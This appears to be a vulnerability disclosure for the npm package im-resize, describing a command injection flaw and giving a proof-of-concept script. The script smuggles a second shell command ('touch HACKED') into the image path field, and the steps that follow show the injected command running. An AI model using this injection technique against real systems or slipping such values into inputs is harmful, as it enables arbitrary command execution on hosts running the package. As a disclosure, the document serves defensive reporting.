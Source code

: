 # Overview

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var resize = require("im-resize");

var image = {
  path: "test; touch HACKED;#",
  width: 5184,
  height: 2623,
};

var output = {
  versions: [
    {
      suffix: "-thumb",
      maxHeight: 150,
      maxWidth: 150,
      aspect: "3:2",
    },
    {
      suffix: "-square",
      maxWidth: 200,
      aspect: "1:1",
    },
  ],
};

resize(image, output, function (error) {
  console.log();
});
```

1. Check there aren't files called `HACKED`
1. Execute the following commands in another terminal:

```bash
npm i im-resize # Install affected module
node poc.js #  Run the PoC
```

1. Recheck the files: now `HACKED` has been created :)
